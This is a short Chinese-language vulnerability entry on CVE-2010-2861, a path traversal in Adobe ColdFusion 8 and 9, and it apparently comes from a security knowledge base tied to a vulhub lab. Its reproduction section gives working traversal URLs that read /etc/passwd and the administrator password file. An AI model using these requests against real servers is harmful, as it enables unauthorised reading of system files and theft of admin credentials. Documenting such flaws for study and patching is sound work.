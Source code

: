 （CVE-2010-2861）Adobe ColdFusion 文件读取漏洞
==============================================

一、漏洞简介
------------

Adobe ColdFusion
8、9版本中存在一处目录穿越漏洞，可导致未授权的用户读取服务器任意文件。

二、漏洞影响
------------

Adobe ColdFusion 8

Adobe ColdFusion 9

三、复现过程
------------

直接访问`http://www.0-sec.org:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../etc/passwd%00en`，即可读取文件`/etc/passwd`：

![](resource/(CVE-2010-2861)AdobeColdFusion文件读取漏洞/media/rId24.png)

读取后台管理员密码`http://www.0-sec.org:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/password.properties%00en`：

![](resource/(CVE-2010-2861)AdobeColdFusion文件读取漏洞/media/rId25.png)

参考链接
--------

> https://vulhub.org/\#/environments/coldfusion/CVE-2010-2861/
